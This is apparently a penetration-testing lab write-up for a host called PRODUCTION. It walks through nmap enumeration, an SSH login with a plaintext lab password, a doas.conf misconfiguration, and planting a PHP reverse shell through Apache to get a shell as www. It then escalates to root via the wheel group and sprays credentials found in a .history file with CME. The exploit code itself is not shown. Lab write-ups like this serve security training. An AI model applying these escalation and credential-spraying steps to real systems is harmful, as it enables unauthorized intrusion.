







---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# PRODUCTION

## Enumeration

```
Nmap scan report for 172.16.159.20
Host is up (0.035s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host

TRACEROUTE
HOP RTT      ADDRESS
1   35.07 ms 172.16.159.20
```

## Foothold

Initial access is provided with `andrew`'s credentials over SSH. These were found in the Borg backup [on `BACKUP`](backup.md#borg).

```bash
ssh andrew@172.16.158.20
```

```
Rb9kNokjDsjYyH
```

<figure><figcaption><p>Initial access</p></figcaption></figure>

## Privilege Escalation


### doas

I find doas when searching for SUID binaries. It is in a non-standard location so I have to search for its config file using `find`:

```bash
find / -type f -name "doas.conf" 2>/dev/null
```

#### Configuration File

Once found:

```
# Sample file for doas
# Please see doas.conf manual page for information on setting
# up a doas.conf file.

# Permit members of the wheel group to perform actions as root.
permit nopass :wheel

# Permit user alice to run commands a root user.
# permit alice as root

# Permit user bob to run programs as root, maintaining
# environment variables. Useful for GUI applications.
## permit keepenv bob as root

# Permit user cindy to run only the pkg package manager as root
# to perform package updates and upgrades.
## permit cindy as root cmd pkg args update
## permit cindy as root cmd pkg args upgrade

# Allow david to run id command as root without logging it
# permit nolog david as root cmd id

permit nopass andrew as root cmd service args apache24 onestart
```

The last line indicates I can use doas to run the command `service apache24`` ``onestart` as `root`.

Specifically this means I can use this command to start Apache:

```bash
doas -u root service apache24 onestart
```

I start looking around for an Apache directory and find it. Now I just need a place to put a webshell and I eventually find a writable directory:

<figure><figcaption><p>Writable directory</p></figcaption></figure>

I place this PHP reverse shell in there and then use curl from my SSH session as `andrew`. This launches the shell back to me as `www`:

<figure><figcaption><p>Shell as www</p></figcaption></figure>

### `www`

`www` is a member of the wheel group:

<figure><figcaption><p>Group membership</p></figcaption></figure>

According to the doas.conf file the wheel group can run any commands as root without a password. I can use any command to elevate shell but I go simple with:

```bash
/usr/local/bin/doas -u root /bin/sh
```

<figure><figcaption><p>Elevated shell</p></figcaption></figure>

## Post-Exploit

Poking around the machine I find a mountuser home directory and inside find a .history file which appears to contain credentials:

<figure><figcaption><p>mountuser credentials</p></figcaption></figure>

I spray them around with CME and have a great deal of access including finally some shares on `FILES` that I had not been able to access before:

<figure><figcaption><p>Access to scripts drive</p></figcaption></figure>

